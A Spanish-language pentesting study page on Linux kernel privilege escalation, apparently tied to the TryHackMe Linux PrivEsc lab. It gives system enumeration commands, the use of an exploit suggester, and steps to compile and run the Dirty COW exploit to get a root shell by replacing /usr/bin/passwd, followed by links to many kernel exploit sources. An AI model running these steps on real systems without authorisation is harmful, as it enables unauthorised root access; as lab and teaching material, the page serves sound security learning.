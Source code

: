 # Kernel Exploit

Las vulnerabilidades del kernel pueden dejar el sistema en un estado inestable.

{% hint style="danger" %}
Las vulnerabilidades del kernel cuando un exploit es ejecutado el sistema puede quedar inestables (Windows y Linux).
{% endhint %}

Pasos para buscar el exploit se puede denominar Enumeración.

En el primer paso se puede buscar información del sistema,estos pasos de puede hacer de forma manual o automática,una ves recopilado la información necesaria se empieza con la búsqueda del exploit.

Para tener mas información del sistema se pueden ejecutar los siguientes comandos.

```
uname -a #all
uname -r #kernel release
```

Otra de la forma es ver el archivo proc/version.

```
cat /proc/version
```

Si se quiere tener mas información se puede ejecutar.

```
uname -a ; lsb_release -a; cat /proc/version /etc/issue /etc/*-release; hostnamectl | grep Kernel
```

Otra forma es ejecuta la herramienta Linux Exploit Suggester 2 para identificar posibles exploits del kernel en el sistema actual:

[linux-exploit-suggester | Kali Linux Tools](https://www.kali.org/tools/linux-exploit-suggester/)

```bash
linux-exploit-suggester-2.pl
```

Por ejemplo en [TryHackMe | Linux PrivEsc](https://tryhackme.com/r/room/linuxprivesc) debería aparecer listado el exploit del kernel de Linux "Dirty COW".&#x20;

Este reemplaza el archivo SUID /usr/bin/passwd por uno que genera una shell (se hace una copia de seguridad de /usr/bin/passwd en /tmp/bak).

Compila el código y ejecutar:

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

Una vez que se complete el exploit, ejecuta /usr/bin/passwd para obtener una shell de root:

```bash
/usr/bin/passwd
```

Antes de salir del root deberas restaurar el archivo original /usr/bin/passwd y salir de la shell de root.

```bash
mv /tmp/bak /usr/bin/passwd
exit
```

#### Lista exploit

[Linux Kernel < 2.6.37-rc2 ACPI custom\_method Privilege Escalation](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C0\_\_TO\_\_\_2%2C6%2C36.c)\
[Linux Kernel - 5.8 < 5.16.11 - Local Privilege Escalation (DirtyPipe)](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_\_5%2C8%2C0\_\_TO\_\_5%2C16%2C11.c)\
[Linux Kernel - 2.4.20 To 2.4.27 mremap missing do\_munmap return check kernel exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C4%2C20\_\_TO\_\_2%2C4%2C27.c)\
[Linux Kernel - 2.4.29 uselib VMA insert race vulnerability](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C4%2C29.c)\
[Linux Kernel < 2.6.36-rc6 pktcdvd Kernel Memory Disclosure](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C0\_\_TO\_\_\_2%2C6%2C36.c)\
[Linux Kernel < 2.6.36.2 Econet Privilege Escalation Exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_\_2%2C6%2C0\_\_TO\_\_2%2C6%2C36.c)\
[Linux Kernel < 2.6.11 Local integer overflow Exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C5\_\_TO\_\_2%2C6%2C11.c)\
[Linux Kernel - 2.6.0-2.6.16 Local Race](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C8\_\_TO\_\_2%2C6%2C16.c)\
[Linux kernel < 2.6.22 open/ftruncate local exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C11\_\_TO\_\_2%2C6%2C22.c)\
[Linux Kernel < 2.6.36-rc1 CAN BCM Privilege Escalation Exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C18\_\_TO\_\_2%2C6%2C36.c)\
[Linux Kernel - 2.6.28 To 3.7.6 \_X86\_MSR Exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C18\_\_TO\_\_3%2C7%2C6.c)\
[Linux kernel <2.6.29 exit\_notify() local root exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C25\_\_TO\_\_2%2C6%2C29.sh)\
[Linux Kernel- 2.6.34 To 2.6.36 CAP\_SYS\_ADMIN to root exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_2%2C6%2C34\_\_TO\_\_2%2C6%2C36.c)\
[Linux Kernel - 3.0 To 3.8.9 perf\_swevent\_init Local root exploit](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_3%2C0%2C0\_\_TO\_\_3%2C8%2C9.c)\
[Linux Kernel - 3.4.0 To 3.13.1 CVE-2014-0038](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_3%2C4%2C0\_\_TO\_\_3%2C13%2C1.c)\
[Linux Kernel- 3.8.0 To 3.13.1 CVE-2016-072 PP\_KEY](https://github.com/sujayadkesar/Linux-Privilege-Escalation/blob/main/Kernel\_EXPLOITS/kernel\_3%2C8%2C0\_\_TO\_\_3%2C13%2C1.c)

#### Lista de sitios interesantes.

[Learning Linux kernel exploitation - Part 1 - Laying the groundwork](https://0x434b.dev/dabbling-with-linux-kernel-exploitation-ctf-challenges-to-learn-the-ropes/)

[Hello, kernel: Exploiting an intentionally vulnerable Linux driver](https://mdanilor.github.io/posts/hello-kernel/)

[Learning Linux Kernel Exploitation - Part 1 | Efiens Blog](https://blog.efiens.com/post/midas/linux-kernel-pwn-1/)

<mark style="color:red;">**Recursos**</mark>

[Un informático en el lado del mal: Linux Exploit Suggester: ¿Cómo puedo hackear este Linux?](https://www.elladodelmal.com/2018/05/linux-exploit-suggester-como-puedo.html)

[SecWiki/linux-kernel-exploits: linux-kernel-exploits Linux平台提权漏洞集合](https://github.com/SecWiki/linux-kernel-exploits)

[Kernel Exploits – Linux Privilege Escalation](https://juggernaut-sec.com/kernel-exploits-lpe/)

[Linux Privilege Escalation - Kernel Exploits - Steflan's Security Blog](https://steflan-security.com/linux-privilege-escalation-kernel-exploits/)

[How to conduct Linux privilege escalations | TechTarget](https://www.techtarget.com/searchsecurity/feature/How-to-conduct-Linux-privilege-escalations)
